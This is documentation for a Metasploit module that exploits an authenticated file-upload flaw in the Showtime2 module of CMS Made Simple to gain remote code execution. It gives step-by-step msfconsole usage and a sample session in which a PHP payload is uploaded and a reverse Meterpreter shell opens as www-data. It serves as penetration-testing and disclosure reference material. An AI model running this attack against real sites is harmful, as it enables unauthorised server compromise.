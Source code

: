 ## Description

This module exploits a File Upload vulnerability that lead in a RCE in Showtime2 module (<= 3.6.2) in CMS Made Simple (CMSMS). An authenticated user with "Use Showtime2" privilege could exploit the vulnerability.

The vulnerability exists in the Showtime2 module, where the class "class.showtime2_image.php" does not ensure that a watermark file has a standard image file extension (GIF, JPG, JPEG, or PNG).

Tested on Showtime2 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2 on CMS Made Simple (CMSMS) 2.2.9.1 and 2.2.10

## Vulnerable Application

Affecting Showtime2 CMS Made Simple (CMSMS) module, version 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. Download Showtime2 module (< 3.6.3)
3. Log-in to admin panel with the administrator credentials
4. Go in *site admin* => *Module Manager* and import the Showtime2 module
5. Once the module is uploaded, click on *install* to install the module
6. [OPTIONALLY] setting up a new user, assign it to a group and set the *Use Showtime2* permissions on group
7. Start `msfconsole`
8. `use exploit/multi/http/cmsms_showtime2_rce`
9. `set RHOST <IP>`
10. `set USERNAME <USERNAME>`
11. `set PASSWORD <PASSWORD>`
12. `check`
13. You should see `The target appears to be vulnerable.`
14. `exploit`
15. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on Showtime 3.6.2 on CMS Made Simple (CMMS) 2.2.10

```
msf5 > use exploit/multi/http/cmsms_showtime2_rce 
msf5 exploit(multi/http/cmsms_showtime2_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/cmsms_showtime2_rce) > check

[*] Showtime2 version: 3.6.2
[*] 192.168.2.59:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_showtime2_rce) > set username Designer
username => Designer
msf5 exploit(multi/http/cmsms_showtime2_rce) > set password d3s1gn3r
password => d3s1gn3r
msf5 exploit(multi/http/cmsms_showtime2_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[*] Showtime2 version: 3.6.2
[*] Uploading PHP payload.
[*] Making request for '/06wp7Fen.php' to execute payload.
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:59932) at 2019-03-19 23:27:07 +0100
[!] Tried to delete ./06wp7Fen.php, unknown result

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_showtime2_rce) > 
```

